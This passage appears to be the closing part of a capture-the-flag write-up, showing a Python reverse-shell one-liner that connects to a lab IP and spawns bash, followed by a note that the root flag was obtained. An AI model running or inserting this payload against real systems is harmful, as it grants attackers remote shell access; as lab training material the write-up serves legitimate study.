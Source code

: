 Reverse shell payload

```shell
`export RHOST="10.8.129.243";export RPORT=1234;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`
```

Save the build and run.

Root flag obtained.

![](attachments/20240405171044.png)


The End. 🤝

